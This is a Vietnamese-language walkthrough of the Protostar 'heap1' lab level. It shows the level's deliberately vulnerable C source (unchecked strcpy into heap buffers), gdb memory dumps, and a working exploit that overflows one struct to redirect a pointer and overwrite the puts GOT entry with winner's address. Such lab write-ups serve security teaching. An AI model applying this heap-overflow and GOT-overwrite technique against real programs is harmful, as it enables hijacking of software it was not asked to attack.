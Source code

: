 # HEAP ONE

## About

This level takes a look at code flow hijacking in data overwrite cases.

This level is at /opt/protostar/bin/heap1

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```

## Solutions

`HEAP ONE` cho chúng ta thấy ngoài việc thay đổi luồng thực thi, trong một số trường hợp đặc biệt việc khai báo cấu trúc các biến cho ta khả năng ghi đè dẫn tới chiếm được quyền điều khiển luồng thực thi. Thử thách hoàn thành khi chúng ta in được dòng chữ `"and we have a winner @ "`.

Trong chương trình này, chúng ta thấy rằng hai `struct internet` `*i1`, `*i2` đã được cấp phát. Mỗi struct chứa một con trỏ `name` được cấp phát riêng. Điều này có nghĩa là `struct internet` được cấp phát trên heap sẽ chứa một con trỏ đến một phần khác của bộ nhớ trên heap có chứa buffer có độ dài là 8.

Bộ nhớ Heap được cấp phát liên tục nên Heap được bố cục như sau:

```
[i1 structure][i1's name buffer][i2 structure][i2's name buffer]
```

Do buffer overflow từ cuộc gọi `strcpy` đầu tiên, chúng ta có thể ghi đè con trỏ `name` của i2 bằng một vị trí mà chúng ta muốn cuộc gọi `strcpy` thứ hai ghi vào. Với điều này, chúng ta có thể ghi dữ liệu tùy ý vào bất kỳ vị trí nào trong bộ nhớ mà chúng tôi muốn.

```
(gdb) r AAAA BBBB
...
(gdb) x/50x  0x804a000
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038
0x804a030:      0x00000000      0x00000011      0x42424242      0x00000000
...
```

Vấn đề bây giờ là ghi vào đâu? Chắc các bạn vẫn còn nhớ `FORMAT FOUR`, ý tưởng của tôi ở đây là ghi đè địa chỉ `GOT` của hàm `puts` bằng địa chỉ của hàm `winner` để thay vì gọi hàm `puts` in `"and that's a wrap folks!"` chúng ta sẽ nhảy đến hàm `winner` và thoát mà không có `Segmentation fault`.

Địa chỉ `winner`.

```
(gdb) print &winner
$1 = (void (*)(void)) 0x8048494 <winner>
```

Địa chỉ `GOT` của `puts`.

```
...
0x08048561 <main+168>:  call   0x80483cc <puts@plt>
0x08048566 <main+173>:  leave
0x08048567 <main+174>:  ret
End of assembler dump.
(gdb) x/2i 0x80483cc
0x80483cc <puts@plt>:   jmp    DWORD PTR ds:0x8049774
0x80483d2 <puts@plt+6>: push   0x30
(gdb)
```

Tiến hành khai thác.

```
root@protostar:/opt/protostar/bin# ./heap1 $(python -c "print 'A' * 20 + '\x74\x97\x04\x08'") $(python -
c "print '\x94\x84\x04\x08'")
and we have a winner @ 1649082615
```

## Documents

<https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf>

<https://sourceware.org/glibc/wiki/MallocInternals>



